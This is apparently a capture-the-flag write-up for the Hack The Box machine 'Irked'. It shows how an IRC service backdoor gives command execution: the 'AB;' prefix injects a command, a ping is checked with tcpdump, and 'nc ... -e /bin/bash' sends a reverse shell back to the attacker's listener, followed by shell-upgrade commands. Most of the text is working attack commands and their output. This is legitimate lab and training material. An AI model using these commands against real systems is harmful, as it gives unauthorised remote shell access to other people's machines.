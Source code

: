 ```
kali@kali:~/htb/Irked$ 
```

I examine both the linux exploits and see that both take use of sending "AB;" followed by the payload. 

So could we could use this to send any command we want. 

Let's try it out:


First I connect with nc.

```
kali@kali:~/htb/Irked$ sudo nc 10.129.1.108 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB; ping 10.10.14.70 -c 1
:irked.htb 451 AB; :You have not registered
```

And to check that we recieved the ping:

```
kali@kali:~/htb/Irked$ sudo tcpdump -i tun0 icmp -v
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
20:37:25.486514 IP (tos 0x0, ttl 63, id 14795, offset 0, flags [DF], proto ICMP (1), length 84)
    10.129.1.108 > 10.10.14.70: ICMP echo request, id 4768, seq 1, length 64
20:37:25.486534 IP (tos 0x0, ttl 64, id 3204, offset 0, flags [none], proto ICMP (1), length 84)
    10.10.14.70 > 10.129.1.108: ICMP echo reply, id 4768, seq 1, length 64
```

-i selects interface

icmp selects the type of packet

-v means verbose

So we got code execution. Let's try to connect back:

```
kali@kali:~/htb/Irked$ sudo nc 10.129.1.108 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB; nc 10.10.14.70 1337 -e /bin/bash
```

and on our listener:

```
kali@kali:~/htb/Irked$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.108 41165
whoami
ircd
```

I then elevate the shell with: `script /dev/null -c bash`. ctrl+z, `stty raw -echo`, `fg`, `reset`, `xterm`, `export TERM=xterm`, `export SHELL=bash`
